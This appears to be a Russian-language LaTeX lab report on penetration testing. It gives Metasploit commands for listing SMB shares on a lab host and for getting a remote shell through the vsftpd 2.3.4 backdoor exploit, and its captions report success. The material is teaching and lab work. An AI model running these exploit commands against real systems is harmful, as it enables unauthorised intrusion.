 \documentclass[a4paper, 14pt]{article}				%
\begin{document}
\newpage
\subsection{Получение списка директорий в общем доступе по протоколу SMB}
Получить список директорий можно с помощью модуля smb\_enumshares.\\
Настраиваем и запускаем эксплоит
\begin{Verbatim}[frame=single]
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 192.168.32.132
set THREADS 4
run
\end{Verbatim}

\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{rsrc/lab5_smb_result}
\caption{Результат работы smb\_enumshares. Видим список директорий, находящихся в общем доступе.}
\end{figure}

\subsection{Получение консоли с использованием уязвимости в vsftpd}
Для данной уязвимости есть готовый эксплоит (vsftpd\_234\_backdoor), его то мы и загружаем.\\
Настраиваем и запускаем эксплоит
\begin{Verbatim}[frame=single]
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.32.132
exploit
\end{Verbatim}

\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{rsrc/lab5_vsftpd_result}
\caption{Результат работы vsftpd\_234\_backdoor. Доступ к консоли получен.}
\end{figure}
\end{document}
